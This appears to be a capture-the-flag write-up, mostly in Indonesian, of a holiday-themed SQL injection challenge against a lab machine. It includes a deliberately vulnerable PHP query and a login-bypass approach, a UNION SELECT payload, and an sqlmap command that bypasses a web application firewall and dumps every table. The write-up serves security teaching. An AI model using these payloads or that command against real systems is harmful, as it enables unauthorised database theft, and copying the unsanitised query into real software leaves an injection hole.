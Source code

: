 # Day 5 | Someone stole Santa's gift list!

`Web Exploitation` `SQLi`

---

## Learning Outcomes

- Understanding how SQLi works
- Understanding how to use SQLMap to exploit a web that vulnerable to SQLi automatically

## Summary

- Find and visit a login panel
- Bypass the login panel using SQLi
- Once you logged in, there's a search box, use SQLi to retrieve flag and admin password from it.


## Write up

Pada task kali ini yang dipelajari adalah dasar sql injection.

Sedikit pembahasan, pada aplikasi-aplikasi yang menggunakan database, biasanya terdapat suatu hardcoded dari SQL kueri. Hal tersebut tentunya digunakan dalam pemrosesan data user, pencarian product, dsb dari database.

Sebagai contoh: 

```
<?php
    $username = $_GET['username'];
    $result = mysql_query("SELECT * FROM users WHERE username='$username'");
?>
```
Dari kode diatas, kita mempunyai kontrol terhadap variabel `$username` karena variable ini di *passing* melalui metode GET request. 

Apa jadinya jika input yang diberikan bukan merupakan <u>username</u>, melainkan tanda `'` ?.

```
$username = '
$result = mysql_query("SELECT * FROM users WHERE username='''");
```

Dari sini writeup akan mengikuti Challenge yang diberikan, yaitu :

```
Visit the vulnerable application in Firefox, find Santa's secret login panel and bypass the login. Use some of the commands and tools covered throughout today's task to answer Questions #3 to #6. 
Santa reads some documentation that he wrote when setting up the application, it reads:

Santa's TODO: Look at alternative database systems that are better than sqlite. Also, don't forget that you installed a Web Application Firewall (WAF) after last year's attack. In case you've forgotten the command, you can tell SQLMap to try and bypass the WAF by using --tamper=space2comment
```

Berikut tampilan dari mesin yang di deploy :

![5929b9e7c4a151e4d09e8e9653ab5743.png](./_resources/afdc4d64470b4119b8abdfea43219b48.png)

Login panelnya berada pada  `/santapanel`, dan berhasil di bypass menggunakan salah satu payload yang ada di link berikut:  

[Payload All The Things](
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

[SQL Injection Payload List](https://github.com/payloadbox/sql-injection-payload-list)

Berikut adalah tampilan setelah login

![20e489986723fdb5d5f3b97c4499ce61.png](./_resources/21cb54862e3e4aa78c1d8d30ebbc04ee.png)

Pada search box tersebut, injeksi kueri SQL dapat dilakukan, berikut contoh payload yang digunakan.

```
' UNION SELECT NULL,NULL--
```
Hasilnya :

![518302d9e5b9b10a1adf7680a4a287b3.png](./_resources/e0344168037247eda7eacbfb76322146.png)

Selanjutnya akan digunakan tools bernapa SQLMap untuk melakukan injeksi kueri sql secara otomatis.

Berikut ini adalah contoh request yang diintersep oleh BurpSuite, disimpan dengan nama **req**.
```
GET /santapanel?search=test HTTP/1.1
Host: 10.10.98.46:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http:/10.10.98.46:8000/santapanel?search=test
Cookie: session=eyJhdXRoIjp0cnVlfQ.X8wN5w.1Ja1P_I4nmcANhJKMUx5dTa7fCQ
Upgrade-Insecure-Requests: 1
```

> Cheatsheet SQLMap  :
- https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet
- https://github.com/sqlmapproject/sqlmap/wiki/Usage

SQLMap dapat membaca request yang diintersep oleh BurpSuite dan menentukan parameter yang mungkin dapat di injeksi dengan menambahkan opsi `-r [nama file]`.

Berdasarkan Challenge, maka susunan SQLmap dan opsinya seperti berikut.

```
sqlmap -r req --tamper=space2comment --dump-all --dbms sqlite --batch
```
Berikut hasilnya:

![5cc874e47b629a01470b7bf86230c0f0.png](./_resources/c5e5e436f2774a4da98314bc38020e5f.png)

![166507cf29fc21d0ab4316e64cd3431a.png](./_resources/5f5cb88db6f74013bfb1a8e1d5c5f2ed.png)

![4e0c5218ef1aa44e8c5a94d7aeff85a5.png](./_resources/1097ea7cf66e454ca6e9e2ab7d0d46d5.png)


